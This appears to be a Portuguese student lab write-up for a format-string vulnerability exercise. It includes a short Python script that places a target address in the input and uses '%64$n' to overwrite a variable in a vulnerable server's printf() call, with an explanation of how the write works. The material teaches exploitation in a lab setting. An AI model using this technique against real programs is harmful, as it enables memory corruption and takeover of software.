 
## Tarefa 3.A

Nesta tarefa o objetivo não é ler, mas escrever. Para tal, usando a mesma vulnerabilidade,
o *exploit* terá que ser feito usando o *format-specifier* `%n`.

Mais uma vez, primeiro é necessário saber o endereço onde se pretende escrever:  
![/imgs6/target_variable_address.png](/imgs6/target_variable_address.png)

Após isto, usámos novamente um *script* de *python* para gerar o *input*:

```py
#!/usr/bin/python3
import sys

N = 1500
content = bytearray(0x0 for i in range(N))

address = 0x080e5068
content[0:4] = (address).to_bytes(4, byteorder='little')

fmt = ("%64$n").encode('latin-1')
content[4:len(fmt)] = fmt

with open('badfile', 'wb') as f:
    f.write(content)
```

Assim, foi colocado no início do *input* o endereço do *target* e de seguida foi passado o
*format-specifier* `%n` modificado (`%64$n`) para selecionar o 64.º suposto argumento de `printf()`,
que vai coincidir na *stack* com o início do nosso *input* guardado no *buffer* e que será usado como
endereço para guardar o número de caracteres escritos pelo `printf()` até ao momento.

*Printout* do *server* onde é possível ver que o *value* do *target* foi alterado:  
![/imgs6/target_variable_change.png](/imgs6/target_variable_change.png)
